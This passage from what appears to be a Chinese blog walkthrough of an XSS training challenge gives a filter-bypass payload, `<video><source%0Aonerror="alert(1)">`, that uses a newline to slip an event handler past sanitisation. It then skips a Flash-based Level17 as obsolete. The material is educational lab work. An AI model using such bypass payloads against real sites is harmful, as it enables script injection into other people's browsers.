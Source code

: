 

<img src="https://i-blog.csdnimg.cn/blog_migrate/370a5cb56b63f4c4d2d39c333b32d706.png" alt="" style="max-height:630px; box-sizing:content-box;" />


那么这里面我们可以使用 %0a绕过

所以payload就是

```cobol
<video><source%0Aonerror="alert(1)">
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/75501b32e5953c3b5c2c12865acc468c.png" alt="" style="max-height:736px; box-sizing:content-box;" />


## Level17

后面是 flash的插件了

我觉得没有必要做了 因为现在 flash已经被大多数浏览器抛弃了